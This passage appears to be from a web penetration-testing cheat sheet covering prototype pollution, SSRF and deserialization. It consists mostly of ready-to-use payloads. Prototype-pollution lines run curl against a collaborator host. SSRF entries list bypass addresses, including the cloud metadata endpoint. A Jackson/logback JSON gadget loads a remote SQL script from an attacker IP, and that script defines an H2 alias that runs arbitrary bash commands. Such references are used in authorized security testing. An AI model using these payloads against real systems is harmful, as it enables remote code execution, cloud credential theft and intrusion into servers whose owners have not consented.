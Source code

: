         *   `"__proto__": { "execArgv":[ "--eval=require('child_process').execSync('curl https://COLLABORATOR-ID.oastify.com')" ] }`
        *   `"__proto__": { "shell":"vim", "input":":! curl https://COLLABORATOR-ID.oastify.com\n" }`

### SSRF

*   Enumeration
    *   URI Fetching Parameters
    *   [SSRFMap](https://github.com/swisskyrepo/SSRFmap) / [Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery#ssrf-exploitation-via-url-scheme) / [Techniques](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery) / [HTB Module](https://academy.hackthebox.com/module/details/145) / [Hacktricks](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass)
*   OOB
    *   `http[s]://[collab]`
    *   `http[s]://[whitelisted]:random@[collab]`
    *   `http[s]://[collab]#[whitelisted]`
    *   `http[s]://[whitelisted].[collab]`
*   Blind Fuzzing
    *   `[protocol]://[localhost]:[port]` → Status / Timing / Content Difference → Rersponse Data / WebServers
    *   Internal Hosts
        *   `http://169.254.169.254/latest/meta-data` 
        *   `127.0.0.1` / `172.16.x.x` / `10.x.x.x` / `192.168.x.x`
        *   `[0:0:0:0:0:ffff:127.0.0.1]`
        *   `[::ffff:127.0.0.1]`
        *   `[::]`
        *   `[0000::1]`
        *   `2130706433`
        *   `0`
        *   `127.1`
        *   `localhost:00011211aaaa`
        *   `0o177.0.0.1`
        *   `google.127.0.0.1.nip.io`
        *   `make-1-1-1-1-rebind-127.0.0.1-rr.1u.ms`

### Deserialization

*   PHP
    *   `unserialize()` + untrusted header/parameter values
    *   Serializable class + exploitable magic function presence
        *   `__destruct()`
        *   `__wakeup()`
        *   `__call()`
        *   `__tostring()`
    *   [Exploitation](https://book.hacktricks.xyz/pentesting-web/deserialization#php)
*   Python
    *   Traffic data with a `.` character at the end
    *   `pickle.loads()` / `yaml.load()`
    *   [Exploitation](https://book.hacktricks.xyz/pentesting-web/deserialization#python)
*   JSON Jackson
    *   `["ch.qos.logback.core.db.DriverManagerConnectionSource",{"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://[KALI_IP]:[PORT]/inject.sql'"}]`
    *   SQL File Content
        *   `CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {    String[] command = {"bash", "-c", cmd};    java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");    return s.hasNext() ? s.next() : "";  }$$; CALL SHELLEXEC('[OS_COMMAND]')`
*   Miscellaneous
    *   [.NET](https://book.hacktricks.xyz/pentesting-web/deserialization#.net)
    *   [Java](https://book.hacktricks.xyz/pentesting-web/deserialization#java-http) → [YSoSerial](https://github.com/frohoff/ysoserial)
    *   [Ruby](https://book.hacktricks.xyz/pentesting-web/deserialization#ruby)
    *   [NodeJS](https://book.hacktricks.xyz/pentesting-web/deserialization#nodejs)